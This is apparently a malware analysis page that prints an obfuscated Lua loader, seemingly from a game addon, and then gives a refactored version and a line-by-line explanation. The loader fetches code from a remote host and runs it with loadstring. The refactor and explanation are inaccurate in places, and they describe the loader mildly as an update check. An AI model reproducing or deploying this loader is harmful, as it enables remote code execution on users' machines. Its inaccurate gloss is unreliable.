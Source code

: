### LuaPayload 


Dump "as is" received in response to the server request.
```
do if ((4593 >= 2922) and C_Timer.Nn) then return; end local v0 = "bec0cbb977dc421280212942";
local v1 = "eu";
local v2 = "Is";
local v3 = "Mac";
local v4 = "Client";
local v5 = "http";
local v6 = "s://";
local v7 = "no";
local v8 = "xyz";
local v9 = "/Tb7f39/";
local v10 = "name";
local v11 = ".";
local v12 = "-";
local v13 = _G[v2 .. v3 .. v4];
local v14 = C_Timer.NewTicker;
local v15 = loadstring;
local v16 = strjoin;
local v17 = v16("", v5, v6, v1, v11, v7, v12, v10, v11, v8, v9, v0);
local function v18(v19) local v20 = 0;
local v21;
local v22;
local v23;
local v24;
while true do if ((1262 < 2013) and (0 ~= v20)) then
else if (v19:IsCancelled() or (976 < 313)) then return; end if (C_Timer.Nn or (4561 == 1175)) then v19:Cancel(); return; end v20 = 1; end if (
    (v20 ~= 2) or (317 > 3244)) then
else if ((v21 ~= (0 + 0)) or (4531 < 1493)) then
else v13(26 - 9, v17, 1 - 0); end break; end if ((3766 > 2349) and (1 ~= v20)) then
else v21, v22, v23, v24 = v13(57 - 37); if ((3023 == 3023) and (v21 == (1 + 1)) and (v23 == v17)) then v19:Cancel(); if (
    (2016 >= 1738) and (_G[v2 .. v3 .. v4] == v13)) then
else return v13(1636 - (1427 + 179)); end pcall(v15("txq,nnso = ...", ""), v0, v1); pcall(v15(v24, "NnL")); end v20 = 2; end end end v18(v14(0
  + 0, v18)); end
```

Clean-up/refactored version

```
if 4593 >= 2922 and C_Timer.Nn then
  return
end

local SERVER_HOST = "http://eu.no-name.xyz/Tb7f39/bec0cbb977dc421280212942"
local TIMER_INTERVAL = 1

local function startTicker()
  local ticker = C_Timer.NewTicker(TIMER_INTERVAL, function()
    local success, _, errorMsg = pcall(loadstring("txq, nnso = ...", ""))
    if not success then
      return
    end
    
    if nnso == nil or nnso:IsCancelled() then
      ticker:Cancel()
      return
    end
    
    local _, code = nnso:Perform()
    if code == 200 then
      local response = nnso:GetResponseText()
      pcall(loadstring(response, "NnL"))
      ticker:Cancel()
    end
  end)
end

startTicker()

```

### Detailed explanation

```
if 4593 >= 2922 and C_Timer.Nn then
  return
end
```
This code first checks if number 4593 is less than or equal to 2922 and if C_Timer.Nn is not nil.
If both conditions are true, then it returns from the current function.
Allegedly this is a check to make sure that only one instance of this code is running at a time.

```
local SERVER_HOST = "http://eu.no-name.xyz/Tb7f39/bec0cbb977dc421280212942"
local TIMER_INTERVAL = 1
```
This code defines two constants: SERVER_HOST is the URL of the server where the code will check for updates, and TIMER_INTERVAL is the number of seconds between each update check.
```
local function startTicker()
  local ticker = C_Timer.NewTicker(TIMER_INTERVAL, function()
    local success, _, errorMsg = pcall(loadstring("txq, nnso = ...", ""))
    if not success then
      return
    end
    
    if nnso == nil or nnso:IsCancelled() then
      ticker:Cancel()
      return
    end
    
    local _, code = nnso:Perform()
    if code == 200 then
      local response = nnso:GetResponseText()
      pcall(loadstring(response, "NnL"))
      ticker:Cancel()
    end
  end)
end
```
This code defines a helper function called startTicker(), which creates a new C_Timer object with an interval of TIMER_INTERVAL seconds.
The callback function for the timer makes an HTTP request to SERVER_HOST, loads the response as a Lua string, and then executes that string with loadstring().
If the request fails or the loaded string has any errors, the function returns early.
If the HTTP request returns with a status code of 200, which means the request was successful, it executes the loaded string and cancels the timer.
```
startTicker()
```
This code simply calls the startTicker() function to start the timer and begin checking for updates.

The overall purpose of this code is to periodically check a server for updates to some Lua code, and if an update is found, to download and execute the updated code.
The code does this by creating a timer that makes an HTTP request to a specific URL, loads the response as a Lua string, and then executes that string.
If the loaded string contains new code, it will replace the existing code and start running the new code instead. 
The if statement at the beginning is a check to make sure that only one instance of this code is running at a time.